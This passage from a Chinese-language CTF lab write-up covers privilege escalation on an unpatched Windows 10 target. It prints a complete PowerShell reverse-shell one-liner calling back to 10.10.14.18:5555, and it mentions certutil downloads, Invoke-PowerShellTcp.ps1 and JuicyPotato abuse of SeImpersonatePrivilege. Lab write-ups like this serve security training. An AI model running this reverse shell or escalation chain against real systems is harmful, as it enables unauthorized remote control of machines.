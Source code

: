   

  

二、提权

  

  

到这一步就简单了，直接利用命令上传 nc 即可获得反弹 shell...

这里有点坑，每过 2 分钟就会自动清除掉 upload 里头的文件...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbLe2ZPrmHzg5EAoG6AffCBZR9cXmvSaGicQKswGVvI3tvv0uFtY6ictrg/640?wx_fmt=png)

```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.18',5555);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

直接输入命令即可... 开启 nc...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbu2jeYCAJbBB31MaUp4CsxObQVC24PZ45RSjLoIh9EOsVHEdKWNLJrw/640?wx_fmt=png)

或者利用 Invoke-PowerShellTcp.ps1 上传提权即可...

可以看到成功拿到低权 shell...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbKfhblxxmC7SCurn9fFibOMdSMzgnsXZz4AKeCtmucjb1ZjnWdl2wQhw/640?wx_fmt=png)

成功获得第一个 users 的 flag...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSboRKGySnmq0sgFK2wvT8ia8icAbpIsFdeqMrc8Wy0r0Z39FmtyOeuwibCg/640?wx_fmt=png)

继续收集信息，这是一个 windows10 的系统... 而且是刚安装的，没打补丁的...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbPZT0ial50ZRf7Yzbu4NFAaCbliaJUWicjoZgnxFpJfIeSlXKj4ucP45ew/640?wx_fmt=png)

```
whoami /all
```

可以发现拥有 SeImpersonatePrivilege 存在 RottenPotato 漏洞... 这里直接用 juicy-potato 即可...（juicy-potato 就是在 windows 拥有 SeImpersonatePrivilege 后做出的提权工具）

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbmV5omMFHf4HPbSoGESxjmk2JA9VuH2ibTGng9yRibpdicE77KwbJ3MYIA/640?wx_fmt=png)

由于是 windows，我直接下载 EXE 即可...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbZqulMu2blcza9Cs8icvZrEzNosQNBsB2uviaFaW2LvfIlyicF89MdZH0w/640?wx_fmt=png)

利用 FTP 或者 certutil -urlcache -split -f 上传即可... 这里有点坑，FTP 上传的东西一会就消失了...

![](https://mmbiz.qpic.cn/mmbiz_png/O7dWXt4o5KOdGaEnMDrByuX1yDuhAQSbsDORwQ5G5iayK2SrkdxEibdVAAfMVSbs91QH17VOwv8VBQZDH268bjXw/640?wx_fmt=png)
